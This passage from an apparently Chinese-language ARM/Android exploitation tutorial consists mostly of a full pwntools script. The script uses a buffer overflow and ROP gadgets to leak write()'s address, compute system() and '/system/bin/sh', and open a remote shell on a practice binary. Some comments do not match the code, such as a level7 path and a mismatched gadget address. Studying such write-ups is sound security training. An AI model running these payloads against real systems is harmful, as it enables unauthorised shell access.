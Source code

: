 ```
#0x0000863a : pop {r1, r2, r4, r5, r6, pc}

```

另外为了能再一次返回`vulnerable_function()`，我们需要构造好执行完write函数后的栈的数据，让程序执行完`ADD SP, SP`,`#0x84`;`POP {PC}`后，PC能再一次指向`0x000084D8`。

![p8](http://drops.javaweb.org/uploads/images/6ed671265eaa4af84ecbd0dce79b65cdee499603.jpg)

最终的explevel9.py如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x00008a12 : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x000088be + 1

#0x0000863a : pop {r1, r2, r4, r5, r6, pc}
gadget2 = 0x0000863a + 1

#.text:000084D8 vulnerable_function
ret_to_vul = 0x000084D8 + 1

#write(r0=1, r1=0x0000AFE8, r2=4)
r0 = 1
r1 = 0x0000AFE8
r2 = 4
r4 = 0
r5 = 0
r6 = 0
write_addr_plt = 0x000083C8

payload =  '\x00'*132 + p32(gadget1) + '\x00'*0xc + p32(r0) + '\x00'*0x4 + p32(gadget2) + p32(r1) + p32(r2) + p32(r4) + p32(r5) + p32(r6) + p32(write_addr_plt) + '\x00' * 0x84 + p32(ret_to_vul)

p.send(payload)

write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
#.text:000253A4                 EXPORT system
#.text:00020280                 EXPORT write

r0 = write_addr + (0x0003F9B4 - 0x00020280)
system_addr = write_addr + (0x000253A4 - 0x00020280) + 1

print 'r0=' + hex(r0)
print 'system_addr=' + hex(system_addr)

payload2 =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(system_addr)

p.send(payload2)

p.interactive()

```
